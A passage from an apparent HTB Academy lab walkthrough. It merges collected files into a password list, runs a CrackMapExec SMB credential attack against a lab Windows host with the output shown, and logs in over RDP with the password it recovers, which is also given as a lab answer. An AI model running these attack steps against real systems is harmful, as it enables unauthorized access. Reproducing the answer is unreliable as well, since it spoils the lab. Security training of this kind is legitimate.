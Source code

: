### Password Wordlist Compilation
```bash
# HTB Academy custom wordlist creation from collected files
cat creds.txt secrets.txt random.txt > passwords.txt
```

**Strategy**: Combine all potential password files from different users

### SMB Credential Attack
```bash
# HTB Academy CrackMapExec SMB password attack
sudo cme smb 10.129.112.104 -u fiona -p passwords.txt

/root/.local/pipx/venvs/crackmapexec/lib/python3.9/site-packages/paramiko/transport.py:236: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.129.112.104  445    WIN-HARD         [*] Windows 10.0 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona:Windows Creds STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona: STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl
```

**Result**: Valid credentials `fiona:48Ns72!bns74@S84NNNSl` discovered ✅ (Question 2 answer)

---

## 🖥️ Phase 4: RDP Authentication & SQL Server Access

### RDP Connection
```bash
# HTB Academy RDP access with discovered credentials
xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'

<SNIP>
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - Common Name (CN):
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - 	WIN-HARD
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.203.10:3389 (RDP-Server):
	Common Name: WIN-HARD
	Subject:     CN = WIN-HARD
	Issuer:      CN = WIN-HARD
	Thumbprint:  6a:a8:87:fc:e0:83:73:73:e7:da:b0:ec:d7:5d:33:e2:62:c3:97:ac:9e:d3:ae:72:b6:1c:83:93:ea:bf:50:d8
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
<SNIP>
```
